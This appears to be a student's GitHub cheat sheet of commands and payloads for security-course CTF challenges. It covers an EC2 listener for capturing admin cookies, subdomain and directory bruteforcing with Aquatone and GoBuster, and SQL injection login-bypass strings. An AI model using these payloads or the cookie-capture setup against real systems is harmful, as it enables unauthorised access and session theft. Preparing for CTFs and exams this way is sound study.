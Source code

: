 # 6843 CMDS + PAYLOADS
Copy pasta some quick access commands + payloads for CTF challenges + exam.

### Security Setup:
---
**EC2 Web Server**
1. Log in to EC2 instance.
2. Launch HTTP server `python -m SimpleHTTPServer 80`
3. Hit it with requests / capture some admin cookies :)

**Alternatives to capture requests**
* https://requestbin.fullcontact.com/
* http://webhookinbox.com/

### Common 6843 words
---
```
noone
sketch
sketchy
```

### Recon: Subdomain Bruteforcing
---
**Aquatone**
```
ssh ec2-user@tehec2instanceidduh.aws.etc.etc        // get in
cd /home/ec2-user/sec_tools/RECON/aquatone          // go to aquatone
aquatone-discover --domain [ ns.agency ]            // run subdomain bruteforcing
cat ~/aquatone/example.com/hosts.txt                // show discovered subdomains
```
**GoBuster DNS Mode**
```
See below instructions @ dir bruteforcing.
go run main.go -m dns -u [ https://ns.agency ] -w /path/to/wordlist      // run subdomain bruteforcing
```

### Recon: Directory Bruteforcing
---
**GoBuster**
```
cd /Users/brianlam/go/src/gobuster                  // go to gobuster sources
go run main.go -u https://ns.agency -w ~/1_RECON/_WORDLISTS/Directories_Common.wordlist    // run dir bruteforcing
```

### XSS
---

### SQLi
---
**Authentication Bypass
```
admin' --
' or 1=1--
' or '1'='1
' or '1'='1 --
```

### Advanced Injection
---



